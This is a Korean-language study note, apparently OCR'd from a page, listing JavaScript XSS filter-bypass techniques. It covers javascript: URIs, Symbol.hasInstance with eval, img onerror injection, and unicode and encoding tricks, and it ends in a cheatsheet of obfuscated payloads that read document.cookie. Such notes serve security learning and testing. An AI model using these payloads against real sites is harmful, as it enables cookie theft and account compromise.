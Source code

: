     ```jsx
    alert(1);
    alert`1`;
    ```
    

- 괄호 또는 Tagged templates를 사용하지 못하는 경우
    - javascript scheme을 통해 함수 실행
        
        ```jsx
        location="javascript:alert\x281\x29;";
        location.href="javascript:alert\u00281\u0029;";
        location['href']="javascript:alert\0501\051;";
        ```
        
    - instanceof 연산자를 이용한 함수 실행
        - JavaScript에서는 문자열 이외에도 ECMAScript 6에서 추가된 Symbol 또한 속성 명칭으로 사용할 수 있다.
        - Symbol.hasInstance well-known symbol을 이용하면 instanceof 연산자를 override할 수 있다.
        - 즉, (O instanceof C)를 연산할 때 C에 Symbol.hasInstance 속성에 함수가 있을 경우 메소드로 호출하여 instanceof 연산자의 결과값으로 사용하게 된다.
        
        ```jsx
        	"alert\x281\x29"instanceof{[Symbol.hasInstance]:eval};
        	Array.prototype[Symbol.hasInstance]=eval;"alert\x281\x29"instanceof[];
        ```
        
    - document에 새로운 html 추가를 통해 자바스크립트 실행.
        
        ```jsx
        document.body.innerHTML+="<img src=x: onerror=alert&#40;1&#41;>";
        ```
        

- 기타
    - 속성 참조
        
        ```jsx
        alert['toString'] === alert.toString; // true
        ```
        
    - unicode를 이용하여 문자열 우회
        
        ```jsx
        \u0061lert == \u{61}lert; // alert
        ```
        
- Cheatsheet
    
    ```jsx
    this['al'+'ert'](this['docu'+'ment']['coo'+'kie']);
    
    Boolean[decodeURI('%63%6F%6E%73%74%72%75%63%74%6F%72')](
          decodeURI('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29'))();
    Boolean[atob('Y29uc3RydWN0b3I')](atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ'))();
    
    /alert/.source+[URL+[]][0][12]+/document.cookie/.source+[URL+[]][0][13] instanceof{[Symbol.hasInstance]:eval};
    location=/javascript:/.source + /alert/.source + [URL+0][0][12] + /document.cookie/.source + [URL+0][0][13];
    ```
    